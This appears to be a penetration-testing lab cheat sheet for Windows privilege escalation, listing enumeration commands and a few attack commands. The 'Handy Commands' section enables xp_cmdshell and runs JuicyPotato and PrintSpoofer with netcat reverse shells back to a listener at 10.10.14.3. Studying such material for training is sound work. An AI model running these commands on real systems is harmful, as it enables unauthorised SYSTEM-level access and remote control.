 | **Command**                                                                                           | **Description**                                |
| ----------------------------------------------------------------------------------------------------- | ---------------------------------------------- |
| `xfreerdp /v:<target ip> /u:htb-student`                                                              | RDP to lab target                              |
| `ipconfig /all`                                                                                       | Get interface, IP address and DNS information  |
| `arp -a`                                                                                              | Review ARP table                               |
| `route print`                                                                                         | Review routing table                           |
| `Get-MpComputerStatus`                                                                                | Check Windows Defender status                  |
| `Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections`                            | List AppLocker rules                           |
| `Get-AppLockerPolicy -Local \| Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone` | Test AppLocker policy                          |
| `set`                                                                                                 | Display all environment variables              |
| `systeminfo`                                                                                          | View detailed system configuration information |
| `wmic qfe`                                                                                            | Get patches and updates                        |
| `wmic product get name`                                                                               | Get installed programs                         |
| `tasklist /svc`                                                                                       | Display running processes                      |
| `query user`                                                                                          | Get logged-in users                            |
| `echo %USERNAME%`                                                                                     | Get current user                               |
| `whoami /priv`                                                                                        | View current user privileges                   |
| `whoami /groups`                                                                                      | View current user group information            |
| `net user`                                                                                            | Get all system users                           |
| `net localgroup`                                                                                      | Get all system groups                          |
| `net localgroup administrators`                                                                       | View details about a group                     |
| `net accounts`                                                                                        | Get passsword policy                           |
| `netstat -ano`                                                                                        | Display active network connections             |
| `pipelist.exe /accepteula`                                                                            | List named pipes                               |
| `gci \\.\pipe\`                                                                                       | List named pipes with PowerShell               |
| `accesschk.exe /accepteula \\.\Pipe\lsass -v`                                                         | Review permissions on a named pipe             |

## Handy Commands

| **Command**                                                                                                                                                                           | **Description**                                            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------- |
| `mssqlclient.py sql_dev@10.129.43.30 -windows-auth`                                                                                                                                   | Connect using mssqlclient.py                               |
| `enable_xp_cmdshell`                                                                                                                                                                  | Enable xp_cmdshell with mssqlclient.py                     |
| `xp_cmdshell whoami`                                                                                                                                                                  | Run OS commands with xp_cmdshell                           |
| `c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *`                                                             | Escalate privileges with JuicyPotato                       |
| `c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`                                                                                                               | Escalating privileges with PrintSpoofer                    |